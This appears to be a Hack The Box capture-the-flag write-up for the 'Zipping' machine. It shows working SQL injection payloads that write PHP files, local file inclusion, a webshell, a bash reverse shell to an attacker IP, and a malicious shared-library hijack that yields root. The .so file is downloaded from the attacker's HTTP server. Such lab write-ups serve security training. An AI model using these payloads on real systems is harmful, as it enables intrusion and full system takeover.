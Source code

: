 # [Zipping](https://app.hackthebox.com/machines/Zipping)

```bash
nmap -p- --min-rate 10000 10.10.11.229 -Pn
```

![alt text](img/image.png)


After detection of open ports, let's do greater nmap scan for this ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.229 -Pn 
```

![alt text](img/image-1.png)


While I looking at port `80`, I can see `shop` web application here.

![alt text](img/image-2.png)


Now, I will inject `SQLI` payloads to `id` parameter. But here, injection of payloads redirects me to `main` page. For bypassing this I will add `new line` means `%0a` to `SQLI` payload and it works.

![alt text](img/image-3.png)



From `page` parameter, I guess there can be `LFI` or `RFI` vulnerabilities.


As we found `Union-based SQLI`, we can write code into any file by using `INTO OUTFILE` functionality of `SQL`.
```bash
%0A100'+union+select+"<?php+phpinfo();+?>",2,3,4,5,6,7,8+into+outfile+"/dev/shm/dr4ks.php";--+-1
```

![alt text](img/image-4.png)

Then we can browse this page via `LFI` vulnerability as below.
```bash
?product=/dev/shm/dr4ks
```

![alt text](img/image-5.png)


Now, let's add `php webshell` into here as below.

![alt text](img/image-6.png)


Let's browse our webshell to execute system commands.

![alt text](img/image-7.png)


Now, it's time to add `reverse shell` payload here.

```bash
bash -c 'bash -i >%26 /dev/tcp/10.10.14.18/1337 0>%261'
```

![alt text](img/image-8.png)


Hola, I got reverse shell from port `1337`.

![alt text](img/image-9.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-10.png)


user.txt

![alt text](img/image-11.png)


For `Privilege Escalation`, I just run `sudo -l` command to see privileges of this user.

![alt text](img/image-12.png)


While I try to run this binary, it asks me a password.

![alt text](img/image-13.png)


To find correct password, I guess that I need to look at this binary via `strings` command to find condition checker for this password.

```bash
strings /usr/bin/stock
```

![alt text](img/image-14.png)


I guess that password is `St0ckM4nager`.

![alt text](img/image-15.png)


After all enumeration on machine, I came back to this binary and run `strace` to see files related to this binary.

```bash
strace /usr/bin/stock
```

![alt text](img/image-16.png)


I see that before `Menu` is coming to screen, there's `.so` script whose name is `libcounter.so` on `/home/rektsu/.config` directory that needs to be loaded but it doesn't exist.


Let's generate malicious `.so` file which gives `root` shell.

For this, I need to write below `.c` script.
```c
#include <stdlib.h>
__attribute__ ((__constructor__))
void shell(void){
    system("/bin/bash");
}
```

Second, I need to compile this via `gcc`.
```bash
gcc -shared -o libcounter.so -fPIC script.c
```

![alt text](img/image-17.png)


Now, it's time to upload this file into target machine's  `/home/rektsu/.config` directory.

First, I will open http.server.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```

![alt text](img/image-18.png)


Now, we need to download this malicious compiled file into machine from http.server via `wget` command.
```bash
wget http://10.10.14.18:8080/libcounter.so
```

![alt text](img/image-19.png)


Now, let's run `stock` binary via `sudo`.


root.txt

![alt text](img/image-20.png)


